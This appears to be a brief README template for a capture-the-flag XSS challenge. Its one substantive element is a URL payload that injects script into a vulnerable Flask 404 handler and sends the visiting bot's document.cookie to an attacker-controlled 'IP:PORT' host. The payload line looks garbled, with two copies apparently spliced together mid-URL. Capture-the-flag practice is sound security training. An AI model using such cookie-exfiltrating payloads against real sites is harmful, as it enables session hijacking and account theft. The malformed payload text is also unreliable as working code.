 # Template for XSS CTF Challenges

The following payload can steal the bots cookie (flag) by triggering XSS on the vulnerable 404 flask method

```
http://127.0.0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://IP:PORT/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E0.1:1337/%3Cscript%3Edocument.write('%3Cimg%20src=%22http://127.0.0.1:9999/?cookie=%27%20+%20document.cookie%20+%20%27%22%20/%3E%27)%3C/script%3E
```
